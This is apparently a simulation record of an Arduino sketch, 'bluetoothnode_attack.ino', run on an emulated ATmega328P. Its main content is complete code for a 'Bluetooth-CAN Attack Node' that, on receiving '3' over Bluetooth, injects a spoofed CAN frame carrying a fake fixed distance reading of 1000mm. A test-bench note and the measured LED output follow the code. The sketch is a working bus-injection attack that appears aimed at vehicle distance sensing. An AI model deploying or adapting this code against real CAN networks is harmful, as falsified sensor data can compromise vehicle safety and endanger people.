
This sketch was run on a simulated Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. On the bench: output pins drawn as LEDs (lit = HIGH). The inputs (shaded band) are chosen by the test bench.

Above: at 1.3 s.
1.4 s: "3" received over the second serial link
At 2.5 s:

Timing chart, 0 to 4.4 s (numbered marks = the images above; inputs shaded):


The sketch:

bluetoothnode_attack.ino
```cpp
// (licence header left out)
#include <SoftwareSerial.h>  // Bluetooth Serial
#include <CAN.h>             // Native CAN library for built-in CAN controllers

// Bluetooth communication pins
SoftwareSerial BT(10, 11); // TX, RX for Bluetooth module

// Constants
const int LED_PIN = 13;                // LED pin for indication
const long CAN_SPEED = 500E3;
const long g_canID = 0x10;              // CAN ID for message
const uint16_t EXPLOIT_DISTANCE = 1000; // Fixed attack distance (1000mm)

// Globals
bool g_canActive = false;

void initCAN();
void sendDistanceOverCAN(uint16_t distance);

void setup() {
  pinMode(LED_PIN, OUTPUT);  // LED pin as output
  digitalWrite(LED_PIN, LOW); // Start with LED off

  BT.begin(9600);      // Start Bluetooth module
  BT.flush();
  BT.println("Hello from Arduino");
  //Serial.begin(115200); // Debugging via Serial Monitor

  BT.println("Bluetooth-CAN Attack Node Ready");
  BT.println("Send '3' to inject CAN distance message (1000mm)");

  initCAN(); // Initialize CAN
  BT.println("After initCAN()");
}

char receivedChar;
void loop() {
  // Check for Bluetooth input
  BT.println("Waiting for input");
  if (BT.available()) {
    receivedChar = BT.read(); // Read Bluetooth input

    if (receivedChar == '3') {
      digitalWrite(LED_PIN, HIGH); // Turn LED ON
      BT.println("Injecting CAN Message...");
      sendDistanceOverCAN(EXPLOIT_DISTANCE);
      BT.println("CAN message sent (1000mm).");
    } else {
      BT.print("Unknown input received: ");
      BT.println(receivedChar);
      BT.println("Send '3' to trigger.");
    }
  }

  // Ensure CAN is always active
  if (!g_canActive) {
    initCAN();
  }
}

void initCAN() {
  if (!CAN.begin(CAN_SPEED)) {
    BT.println("Starting CAN failed!");
    g_canActive = false;
  } else {
    BT.println("CAN started successfully");
    g_canActive = true;
  }
}

void sendDistanceOverCAN(uint16_t distance) {
  byte canData[2] = {0};
  canData[0] = distance & 0xFF;        // LSB of distance
  canData[1] = (distance >> 8) & 0xFF; // MSB of distance

  if (!CAN.beginPacket(g_canID)) {
    BT.println("CAN begin failed");
    g_canActive = false;
  } else {
    CAN.write(canData, 2);
    CAN.endPacket();
    BT.println("CAN packet sent successfully");
    BT.print("Sent Data: [0x");
    BT.print(canData[0], HEX);
    BT.print(", 0x");
    BT.print(canData[1], HEX);
    BT.println("]");
  }
}
```

Measured:
- after the input at 1.4 s, pin 13 (LED_PIN): LOW → HIGH at once
